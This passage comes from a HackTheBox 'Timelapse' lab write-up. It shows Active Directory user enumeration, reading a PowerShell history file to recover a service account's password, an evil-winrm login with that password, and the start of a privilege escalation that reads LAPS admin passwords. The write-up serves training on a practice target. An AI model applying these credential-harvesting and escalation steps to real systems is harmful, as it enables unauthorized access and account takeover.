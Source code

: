 ``` powershell
net user svc_deploy
net user TRX
```

![Domain Users and Privileges](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/users_priv.png)

Notable accounts:

- **svc_deploy** → Member of `LAPS_Readers`
- **TRX** → Member of `Domain Admins`

---

### 4.2 Harvesting Credentials from PowerShell History

``` powershell
type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![PowerShell Command History](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/last_commands_used.png)

Recovered credentials:

`Username: svc_deploy 
`Password: E3R$Q62^12p7PLlC%KWaxuaV`

---

### 4.3 Logging in as svc_deploy

``` bash
evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

![Evil-WinRM as svc_deploy](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/evil_winrm_svc_deploy.png)

---

## 5. Privilege Escalation via LAPS

### 5.1 Understanding LAPS

LAPS (Local Administrator Password Solution) allows domain admins to centrally manage local admin passwords.  
Members of `LAPS_Readers` can retrieve these passwords from AD.

---

### 5.2 Uploading LAPS Retrieval Script

Now we can extract the LAPS passwords using the following GitHub tool:  
https://github.com/kfosaaen/Get-LAPSPasswords

![Downloading LAPS script from GitHub](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/git_clone_LAPS.png)
